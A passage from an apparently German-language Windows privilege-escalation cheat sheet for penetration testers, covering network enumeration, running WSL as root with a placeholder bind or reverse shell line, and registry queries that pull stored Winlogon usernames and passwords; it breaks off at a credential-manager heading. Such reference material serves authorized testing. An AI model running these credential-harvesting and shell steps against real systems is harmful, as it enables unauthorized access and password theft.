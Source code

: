 Überprüfen Sie **eingeschränkte Dienste** von außen
```bash
netstat -ano #Opened ports?
```
### Routing-Tabelle
```
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
```
### ARP-Tabelle
```
arp -A
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,L
```
### Firewall-Regeln

[**Überprüfen Sie diese Seite für firewallbezogene Befehle**](../basic-cmd-for-pentesters.md#firewall) **(Regeln auflisten, Regeln erstellen, ausschalten, ausschalten...)**

Mehr[ Befehle zur Netzwerkanalyse hier](../basic-cmd-for-pentesters.md#network)

### Windows-Subsystem für Linux (wsl)
```bash
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```
Binary `bash.exe` kann auch in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe` gefunden werden.

Wenn Sie den Root-Benutzer erhalten, können Sie auf jedem Port lauschen (beim ersten Mal, wenn Sie `nc.exe` verwenden, um auf einem Port zu lauschen, wird über die GUI gefragt, ob `nc` von der Firewall erlaubt werden soll).
```bash
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```
Um bash einfach als root zu starten, können Sie `--default-user root` versuchen.

Sie können das `WSL`-Dateisystem im Ordner `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\` erkunden.

## Windows-Anmeldeinformationen

### Winlogon-Anmeldeinformationen
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#Other way
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```
### Anmeldeinformationsmanager / Windows-Tresor
